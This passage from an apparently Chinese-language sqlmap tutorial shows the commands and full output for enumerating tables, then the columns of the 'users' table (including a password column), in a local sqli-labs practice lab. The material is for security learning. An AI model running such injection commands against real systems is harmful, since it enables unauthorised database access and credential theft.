 ```shell
[22:34:09] [WARNING] your sqlmap version is outdated

[*] ending @ 22:34:09 /2023-05-08/
```

**注意：将--dbs缩写成-D xxx，意思就是在xxx数据库中查询其他数据；**

**查询数据库内的表名**

```shell
[hacker@Blackarch]-[~]
>>> sqlmap --dbms="mysql" -u "http://192.168.8.121/sql-lab/Less-1/?id=1" -D security --tables
```

结果如下

```shell
[22:48:34] [INFO] fetching tables for database: 'security'
[22:48:34] [WARNING] the SQL query provided does not return any output
[22:48:34] [INFO] retrieved: 'emails'
[22:48:34] [INFO] retrieved: 'referers'
[22:48:34] [INFO] retrieved: 'uagents'
[22:48:34] [INFO] retrieved: 'users'
Database: security
[4 tables]
+----------+
| emails   |
| referers |
| uagents  |
| users    |
+----------+

[22:48:34] [INFO] fetched data logged to text files under '/home/hacker/.local/share/sqlmap/output/192.168.8.121'
[22:48:34] [WARNING] your sqlmap version is outdated

[*] ending @ 22:48:34 /2023-05-08/
```

**注意：将--tables缩写成-T 表名**

**获取表中的字段**

```shell
[hacker@Blackarch]-[~]
>>> sqlmap --dbms="mysql" -u "http://192.168.8.121/sql-lab/Less-1/?id=1" -D security -T users --columns
```

结果如下

```shell
[22:56:01] [INFO] fetching columns for table 'users' in database 'security'
[22:56:01] [WARNING] the SQL query provided does not return any output
[22:56:01] [INFO] retrieved: 'id'
[22:56:01] [INFO] retrieved: 'int(3)'
[22:56:01] [INFO] retrieved: 'username'
[22:56:01] [INFO] retrieved: 'varchar(20)'
[22:56:01] [INFO] retrieved: 'password'
[22:56:01] [INFO] retrieved: 'varchar(20)'
Database: security
Table: users
[3 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int(3)      |
| password | varchar(20) |
| username | varchar(20) |
```